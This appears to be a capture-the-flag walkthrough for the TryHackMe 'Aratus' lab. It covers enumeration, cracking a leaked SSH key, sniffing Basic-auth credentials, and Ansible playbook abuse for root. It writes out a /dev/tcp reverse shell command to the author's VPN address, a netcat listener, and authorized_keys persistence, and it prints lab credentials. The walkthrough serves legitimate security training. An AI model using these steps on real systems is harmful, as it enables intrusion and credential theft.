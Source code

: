 # Aratus
[https://tryhackme.com/room/aratus](https://tryhackme.com/room/aratus)

## Enumeration
`sudo rustscan --range 1-65535 --ulimit 5000 -a $ip -- -sC -sV`

OS: Centos

| Port | Service |
| - | - |
| 21 | FTP - vsftpd 3.0.2 |
| 22 | SSH - OpenSSH 7.4 |
| 80 | HTTP - Apache httpd 2.4.6 |
| 139 | SMB - Samba smbd 3.X - 4.X |
| 443 | HTTPS Apache httpd 2.4.6 |

### SMB
- Anonymous login enabled

Potential Usernames: 
- Simeon
- Theodore

Message from to Simeon says he has an insecure password - will attempt to bruteforce SSH

### SSH Bruteforce
`hydra -l Simeon -P /usr/share/wordlists/rockyou_utf8.txt $ip ssh -t 64`

Ended up being a rabbit hole, unable to bruteforce.

### Lots of reading
I downloaded all the dirs and files from SMB on the server to my local machine and instead of reading through them all and found a private key with a password.

However after looking at this again at a later date I found that LinPeas would have found this RSA key as well.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,596088D0C0C3E6F997CF39C431816A88

5t3gTvBBx3f871Au/57hicjw646uQzz+SOfHtmUGL8IvojzDAgC72IX20qg717Dl
xD+jjENQUEB60dsEbPtzc9BatTZX6kQ9B0DXVEY63v/8wHb4Aq6g5WwgGNH6Nq6y
hIpylfVflBTnYpdSSIHnTdqzgzzHuOotLGoQJOrwO8IvmdlId7/dqpLgCY6jQMB8
nYYbkwwcyXcyt7ouZNfb3/eIp6afHW8g9cC2M9HIYLAtEIejxmcCqF2XjYIekZ/L
TI5EVrPOnLZeT5N6byAtODlIPJyJRE3gIiS1tTPxxOjBl6/7lEDQ49eIz5mCHxOz
BrIfgjaTRTPC1G6b+QAS9S1dleqNE4j5+FUsYpJDLan+WCgGc6oFgBjTTz96UB7M
qduRY8O+bW36OJhQh3hCxfZevCSa5ug6hH+q43XP0O9UkUL8U4/1dFLa4RI9cjIK
D3ythFCQUzT4RKMoW+F1528Fhro0lPRgc6XfhJu/zs3gr6yIiaolIE+YVOB92IBx
Xu6kBRLPct6Gj7lFSnISYa+Vu5UyQNUNP+Ezk9GgeK/PGwMd2sfLW79PKyhl4iXZ
ymkbHWAfgHk+kmY/+EPgdgf9VyglYOjx5hBopEpPlfuZb/X/PZTO8CYxltYHiJtn
FCjnVV9rH6oUBgaA2yspo22OEi8QdSoGzUrz9TgdStxls20vTuYuwll8rhyZu7OR
ehXskDrvxAnptNzHyLjj800W4/X7jUltuA3jfvEYLGFeLyeP3Cg/IFnXbv+4H3ca
TxTnFUNY9t8DsnYiaHgbKTx7XpVwGATI+Wn3cT558xIvPhipge2lso5d0KTLP2Nn
kLlwlcSQp393GvUlJ7e9Gd1KkoZvk6wxjWB0ZxOSte/HJJooXfNF7/8p3v9Y++iX
NVNA/vu4o8C8TfKgq91cm+j13s/WNV1g8TXqbI9TU/YW4ZEEeemJFA0hd0eQvZvR
C4z/qJZH8MhBB6VIVn4l0uhNKHehaZCoGUtR28IzIctz96CJnwl3DbMKWX8c7mx0
s+1rJAjjcKxFS7lxPiCID6j/hZvsdjXnPScH2e/lQ1bMUk2rOCsDKCKeY0YGCkvI
H51/oW3qCjUx7Rtnf8RKu16uMDMBqDFYc795QoFmz9SAe7tCHmtKyZw1rI8x4G2I
rzptsqT3tW+hMrlqBM8wxksKfnhQE8h06tJKSusv12BabgkCNuk9CuD9D7yfgURI
hKXIf7SYorLBo7aBDXxwPZzanqNPsicL03Pbcv6LK18nubBd4nN9yLJB7ew0Q2WC
d19y9APjMKqoOUkXFtVhUFH5RQH7cDzoK1MZEZzMG7DKs496ZkDXxNJP6t5LiGmi
LIGlrXjAbf/+4/2+GNmVUZ+7xXhtM08hj+U5W0StmD7UGa/kVbwsdgBoUztz91wC
byotvP69b/oQBbzs/ZZSKJlAu2OhNGgN1El4/jhCHWcs5+1R1tVcAbZugdvPH2qK
rTePu5Dh58RV3mdmw7IyxdRzD95mp7FOnw6k+a7tZpghYLnzHH6Xrpor28XZilLT
aWtaV/4FhBPopJrwjq5l67jIYXILd+p6AXTZMhJp0QA53unDH8OSSAxc1YvmoAOV
-----END RSA PRIVATE KEY-----
```

From here I used ssh2john to extract the hash and then attempted to crack it using `john --wordlist=/usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt hash.txt`

This found the password for the ssh key to be "testing123".

I accessed the machine through ssh as simeon using the rsa key that I found along with the cracked password.

### Privilege Escalation
After gaining a foothold on the simeon user I decided to ran linpeas which identified tcpdump as a potentially useful.

I decided to sniff the traffic on the machine's loopback interface using `tcpdump -i lo port not 22 and host not [my vpn ip] -v`

I saw it make GET request to  /test-auth/index.html with the header `Authorization: Basic dGhlb2RvcmU6UmlqeWFzd2FoZWJjZWliYXJqaWs=`

`dGhlb2RvcmU6UmlqeWFzd2FoZWJjZWliYXJqaWs=` when decoded from base64 becomes `theodore:Rijyaswahebceibarjik` 

I take these credentials and use su to log into the theodore user.

From here I have found the first flag: THM{ba8d3b87bfdb9d10115cbe24feabbc20}

### Enumeration
First I checked sudo privileges on Thedore by running `sudo -l` which showed me:

(automation) NOPASSWD: /opt/scripts/infra_as_code.sh

Meaning we can run `sudo -u automation /opt/scripts/infra_as_code.sh` to run this script as the automation user (maybe we can gain a foothold into this account?)

/opt/scripts/infra_as_code.sh
```sh
#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml
```

From here I googled "Ansible Privilege Escalation" to find some more information as I wasn't familiar and I found a [blog post by Digital Ocean](https://www.digitalocean.com/community/tutorials/understanding-privilege-escalation-in-ansible-playbooks) about using Playbooks to escalate privileges. Conveniently, they are used here.

First I check to see if there are any vulnerable documents
```
cd /opt/ansible/playbooks
grep -rin "become:" /opt/ansible/playbooks/
	# /opt/ansible/playbooks/httpd.yaml:4:  become: true
```

/opt/ansible/playbooks/httpd.yaml
> -rw-r--r--.
```
---
- name: Install and configure Apache
  hosts: all
  become: true
  roles:
    - role: geerlingguy.apache
  tasks:
    - name: configure firewall
      firewalld:
        service: "{{ item }}"
        state: enabled
        permanent: yes
        immediate: yes
      loop:
        - http
        - https
...
```

Since I don't have the ability to edit this file directly I decide to look into the role `geerlingguy.apache` which is stored in /opt/ansible/roles/geerlingguy.apache then from here I can see that there is a task running called "configure firewall" so I check the tasks directory within the role and check the files.

```
   0 drwxr-xr-x. 2 automation automation  228 Dec  2 11:55 .
   0 drwxr-xr-x. 9 automation automation  178 Dec  2 11:55 ..
4.0K -rw-rw-r--. 1 automation automation 1.7K Dec  2 11:55 configure-Debian.yml
4.0K -rw-rw-r--+ 1 automation automation 1.1K Dec  2 11:55 configure-RedHat.yml
4.0K -rw-rw-r--. 1 automation automation  546 Dec  2 11:55 configure-Solaris.yml
4.0K -rw-rw-r--. 1 automation automation  711 Dec  2 11:55 configure-Suse.yml
4.0K -rw-rw-r--. 1 automation automation 1.4K Dec  2 11:55 main.yml
4.0K -rw-rw-r--. 1 automation automation  193 Dec  2 11:55 setup-Debian.yml
4.0K -rw-rw-r--. 1 automation automation  198 Dec  2 11:55 setup-RedHat.yml
4.0K -rw-rw-r--. 1 automation automation  134 Dec  2 11:55 setup-Solaris.yml
4.0K -rw-rw-r--. 1 automation automation  133 Dec  2 11:55 setup-Suse.yml
```

There is a file called configure-RedHat.yml that has slightly different privileges to the others: `-rw-rw-r--+` this indicates that there is an access control list that can grant additional permissions on this resource.

I run `getfacl configure-RedHat.yml` to find out what privileges are available to us and find the following:
```
# file: configure-RedHat.yml
# owner: automation
# group: automation
user::rw-
user:theodore:rw-
group::rw-
mask::rw-
other::r--
```

Our user (Theodore) has read and WRITE access to this file.

I first create a reverse shell script in /tmp which I plan on utilizing and making it executable by running `echo "bash -i >& /dev/tcp/<my vpn ip>/4242 0>&1" > /tmp/shell.sh && chmod 777 /tmp/shell.sh`

I then start a netcat listener on my machine `nc -lvnp 4242` and on the target machine I run `sudo -u automation /opt/scripts/infra_as_code.sh`

From here I recieve a shell as root and added my RSA public key to the root user's authorized keys to persist my connection.